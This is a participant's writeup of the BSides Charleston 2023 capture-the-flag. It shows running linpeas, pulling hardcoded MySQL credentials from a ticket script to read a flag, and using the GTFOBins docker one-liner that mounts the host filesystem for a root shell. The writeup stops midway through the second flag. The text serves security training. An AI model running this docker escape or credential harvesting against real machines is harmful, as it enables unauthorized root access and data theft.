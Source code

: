 # BSIDES-CHARLESTON-2023-writeup

This is my writeup for the BSides Charleston CTF that took place on 11-4-2023. My team (l0wg4ng) and I were tasked to obtain 3 flags from a target machine which we had to SSH into. There was no initial foothold required as they supplied us with the SSH credentials. NOTE: The first flag had a hint before the CTF which mentioned it is found in a mysql database.

## Enumeration

After logging into the machine via SSH, I transferred over linpeas.sh via scp to check how I could privesc as soon as I got in.

```
scp linpeas.sh kingpwn@10.10.10.204:/tmp/linpeas.sh 
```

After running linpeas, I noticed that it picks up docker as a possible privesc point. I decide to focus on that later.

![1-linpeas-output.png](1-linpeas-output.png)

## Flag 1

I run `sudo -l` and notice that the current user can run tickets.py without a password. 

![2-sudo-l.png](2-sudo-l.png)

There is also a python script in the home directory which has this script that has a username and password. I also remember there being a mysql db that we had to access from the hints.

```
import mysql.connector

def create_ticket(title, description):
    user = 'dbtickets'
    password = 'ayuaiJ5YJ3XNn8'

    connection = mysql.connector.connect(
        host="localhost",
        user=user,
        password=password,
        database="ticketDB"
    )

    cursor = connection.cursor()

    
    flag = input("Enter A Severity Flag: High or Low: ")

    ticket = (title, description, flag)
    query = "INSERT INTO tickets (title, description, flag) VALUES (%s, %s, %s)"

    cursor.execute(query, ticket)
    connection.commit()

    print(f"Ticket Created: {title}")
    cursor.close()
    connection.close()

if __name__ == "__main__":
    title = input("Enter Ticket Title: ")
    description = input("Enter Ticket Description: ")
    create_ticket(title, description)

```

When trying to access the mysqldb with the creds above, I get an error that I can't run mysql on this machine. My teammate was able to create a python script that would be able to connect to the mysqldb and allow us to get the first flag.

The working script is below:
```
import mysql.connector

def query_database(query):
    user = 'dbtickets'
    password = 'ayuaiJ5YJ3XNn8'
    database = 'ticketDB'  # Replace with your actual database name

    # Establish a database connection
    connection = mysql.connector.connect(
        host="localhost",
        user=user,
        password=password,
        database=database
    )

    cursor = connection.cursor()

    # Execute the query
    try:
        cursor.execute(query)
        if cursor.with_rows:
            # Fetch the results and print them
            results = cursor.fetchall()
            for row in results:
                print(row)
        else:
            print("Query executed successfully")
    except mysql.connector.Error as err:
        print(f"Error: {err}")

    # Close the cursor and connection
    cursor.close()
    connection.close()

if __name__ == "__main__":
    while True:
        query = input("Enter your SQL query (or type 'exit' to quit): ")
        if query.lower() == 'exit':
            break
        query_database(query)

```

We named the script db.py and executed it, and were able to obtain the first flag.

![3-first-flag.png](3-first-flag.png)

## Flag 3

I actually found the 3rd flag before getting the 2nd one. So I am jumping ahead for now. Remembering the local enumeration I did before with linpeas, there is a potential docker escape privesc that I can run here.

I checked GTFObins and found this one:
https://gtfobins.github.io/gtfobins/docker/

I then ran this command to get the 3rd flag:
`docker run -v /:/mnt --rm -it alpine chroot /mnt sh`

![4-docker-privesc.png](4-docker-privesc.png)

I confirmed that I can read the flag for the root user.

![5-third-flag.png](5-third-flag.png)


## Flag 2

There is still a 2nd flag that I skipped, and remembering there is a docker container in this machine. I run the following commands to check and also access the container with a bash shell:
```
docker ps
docker exec -it 8269fa564b7e bash
```
![6-docker-ps.png](6-docker-ps.png)

As soon as I get into the container, I check with `sudo -l` and see another potential privesc path.

![7-sudo-l-docker.png](7-sudo-l-docker.png)



